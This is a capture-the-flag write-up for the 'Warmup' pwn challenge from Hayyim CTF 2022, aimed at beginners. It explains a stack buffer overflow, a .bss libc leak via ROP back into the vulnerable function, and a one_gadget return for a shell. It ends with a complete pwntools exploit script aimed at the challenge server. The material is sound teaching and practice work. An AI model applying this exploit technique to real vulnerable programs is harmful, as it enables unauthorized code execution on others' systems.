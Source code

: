 #### **Warmup,**

.

well..

as its name indicates Warmup was a warmup pwn challenge from Hayyim CTF 2022.

Hayyim CTF had very good challenges, but I did not have time to participate..(I was working on defcamp CTF at the same time)

I will do a small write up for people beginning with pwn, as it is very simple to exploit actually..

ok, so we have this small program, with an obvious buffer overflow, and very few gadgets..

let's look at the reverse:

![IDA Reverse](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/warmup/pics/reverse.png)

ok , we can see that the vuln function, reserve 0x30 bytes on stack for his input,

and read 0xC0 bytes in it from the user..  obviously too much..

We will do the exploitation in two rounds, but the payload will be send in one time.

At the end of the vulnerable function, stack is increased of 0x30 bytes, than rbx is popped from stack, and there is the ret.

![.bss memory](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/warmup/pics/memory.png)

When examining the .bss memory above, you can see that there are 3 libc addresses that we can leak, stdin, stdout & stderr,

and one thing important too, that memory zone is writable (it is .bss)

What we do first, is to set rbx to points to 8 bytes before stderr, at 0x601018, then we return to 0x40055d.

At the end of the vuln function, rdi, rsi and rdx are set correctly by the last read, so when we jump to 0x40055d,

the content of the stack will be dumped, and just after the call to write, rsi will be set to the value in rbx that we set before.

So now, the next read will be on this zone pointed by rbx (and now rsi) , that is the address 8 bytes before stderr on bss.

So with the next read, we fill the 8 bytes before stderr, and stop just before. We send just 8 bytes this time so..

And our ROP; return again to 0x40055d, so that time the value of stderr will be leaked.

see the leaked stderr libc address , after the 8 chars 'A' we sent:

![leaked stderr address](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/warmup/pics/leak.png)

With that value, we will calculate the remote libc mapping address.

and this time we will return to the beginning of the vuln function at 0x40053d, to set rsi to point on stack again..

and to send our last payload, that will contain only a single onegadget value.

We could also have send a system('/bin/sh') now that we know libc remote address...

here is the exploit so...

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

exe = ELF('./warmup')
libc = ELF('./libc.so.6')

host, port = "141.164.48.191", "10001"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)


# 1st round , set rbx = 0x601018 point 8bytes before stderr address on .bss
payload = 'A'*0x30+p64(0x601018)+p64(0x40055d)+p64(0)*6
# 2nd round, now rsi will point to 0x601018 (that we pass at the 1st round in rbx, and we will dump stderr value)
payload += p64(0x601018)+p64(0x40055d)+p64(0)*6+p64(0x601018)+p64(0x40053d)

p.sendafter('> ', payload)
buff  = p.recv(0xc0)

# write 8 bytes just before stderr address on .bss
p.send('A'*8)
# receive out stderr leak
buff  = p.recv(0xc0)
print(hexdump(buff))
leak = u64(buff[0x8:0x10])
print('leak = '+hex(leak))
libc.address = leak - libc.symbols['_IO_2_1_stderr_']
print('libc.address = '+hex(libc.address))

# write again 8 bytes just before stderr address on .bss
p.send('A'*8)

# now that we know remote libc mapping address, we send a onegadget for our final payload, that will do system('/bin/sh')
onegadgets = one_gadget('libc.so.6', libc.address)
payload = 'A'*0x30+p64(0x601018)+p64(onegadgets[1])+p64(0)*10
p.sendafter('> ', payload)

# enjoy shell
p.interactive()
```

seeing is believing...

![shell is coming..!!](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/warmup/pics/gotshell.gif)

*nobodyisnobody still pwning things*  (like a ghost in the machine..)



